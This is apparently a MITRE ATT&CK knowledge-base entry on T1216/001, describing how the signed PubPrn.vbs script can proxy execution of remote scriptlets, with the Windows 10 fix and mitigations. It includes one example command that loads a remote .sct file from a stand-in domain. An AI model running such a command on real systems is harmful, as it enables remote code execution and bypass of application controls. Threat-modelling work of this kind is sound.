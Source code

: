 ```yaml
---
tags:
   - techniques
---
```

# PubPrn
## ID:T1216/001
Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](/mitre/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](/mitre/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).
## Mitigations
* [Execution Prevention](/mitre/mitigations/M1038)
* [Behavior Prevention on Endpoint](/mitre/mitigations/M1040)
